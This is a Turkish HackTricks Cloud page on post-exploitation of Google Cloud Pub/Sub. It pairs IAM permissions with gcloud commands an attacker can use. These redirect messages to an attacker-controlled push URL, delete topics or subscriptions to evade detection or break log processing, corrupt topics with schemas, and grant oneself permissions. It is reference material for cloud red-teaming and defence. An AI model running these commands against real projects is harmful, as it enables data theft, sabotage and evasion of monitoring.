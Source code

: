# GCP - Pub/Sub Sonrası Sızma

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfaya bakın:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda bir mesaj yayınlamak, **beklenmeyen veri göndermek** ve beklenmeyen işlevleri tetiklemek veya zafiyetleri sömürmek için kullanışlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Algılanmayı önlemek için bir abonelikten mesaj alınmasını engellemek için kullanışlıdır.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını engellemek için kullanışlı olabilir, belki tespit edilmekten kaçınmak için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni kullanarak, `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key` gibi konu ayarlarını güncellemek için kullanabilirsiniz.

### `pubsub.topics.setIamPolicy`

Kendinize önceki saldırılardan herhangi birini gerçekleştirme izni verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu kullanarak **mesajları çekin**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemi veya benzer bir şeyi bozmak için kullanışlı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni kullanarak mesajların erişebileceğiniz bir yere (URL, Big Query tablosu, Bucket) depolanmasını veya sadece bozulmasını sağlayacak bazı ayarları güncelleyebilirsiniz.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Önceki yorumlanmış saldırıları gerçekleştirmek için gerekli izinleri kendinize verin.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya saldırın, böylece mesajlar onu karşılamaz ve dolayısıyla konu bozulur.\
Eğer şemalar yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemanın silinmesine benziyor, böylece şemayı karşılamayan mesajlar gönderebileceksiniz. Ancak, şema silindiğinden dolayı hiçbir mesaj aslında konunun içine girmeyecek. Bu yüzden bu **FAYDASIZ**'dır:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Kendinize önceki yorumlanmış saldırıları gerçekleştirmek için gerekli izinleri verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Saldırganlar için pek faydalı değil ama işte:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
